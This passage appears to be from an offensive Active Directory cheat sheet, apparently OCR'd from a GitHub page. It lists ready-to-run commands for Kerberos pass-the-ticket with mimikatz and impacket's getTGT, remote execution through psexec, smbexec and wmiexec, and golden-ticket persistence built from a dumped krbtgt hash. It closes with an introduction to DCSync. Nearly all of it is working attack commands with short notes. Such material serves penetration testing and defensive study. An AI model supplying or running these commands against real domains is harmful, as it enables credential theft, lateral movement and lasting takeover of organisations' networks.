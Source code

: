 >The attacker then "passes" this stolen ticket to authenticate themselves as the compromised user or service without needing to know the account's password.
```
sekurlsa::tickets /export (export all kirbi files)
kerberos::ptt [0;3e7]-0-0-40a00000-ted@krbtgt-web01.exam.com-exam.com.kirbi (load into memory)
```
```
# Request the TGT with hash
python getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>
# Request the TGT with aesKey (more secure encryption, probably more stealth due is the used by default by Microsoft)
python getTGT.py <domain_name>/<user_name> -aesKey <aes_key>
# Request the TGT with password
python getTGT.py <domain_name>/<user_name>:[password]
# If not provided, password is asked

# Set the TGT for impacket use
export KRB5CCNAME=<TGT_ccache_file>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass

# To convert tickets between Linux/Windows format with ticket_converter.py:
impacket-ticket_converter ticket.kirbi ticket.ccache
impacket-ticket_converter ticket.ccache ticket.kirbi
```

### Persistence
#### Golden Tickets(only if we can get password hash of a domain user account called krbtgt)
>The golden ticket will require us to have access to a Domain Admin's group account or to have compromised the domain controller itself to work as a persistence method
```
privilege::debug
lsadump::lsa /patch(get password hash)
kerberos::purge
kerberos::golden /user:any_exist_domain_user /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668(domain SID part,from lsadump::lsa /patch) /krbtgt:75b60230a2394a812000dbfad8415965(from lsadump::lsa /patch) /ptt
misc::cmd(launch a new command prompt)
psexec.exe \\dc01 cmd.exe

# To generate the TGT with NTLM
python ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>
# To generate the TGT with AES key
python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name>  <user_name>
# Set the ticket for impacket use
export KRB5CCNAME=<TGS_ccache_file>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```
#### Domain Controller Synchronization
>If we obtain access to a user account in one of these groups or with these rights assigned, we can perform a dcsync4 attack in which we impersonate a domain controller. This allows us to request any user credentials from the domain.
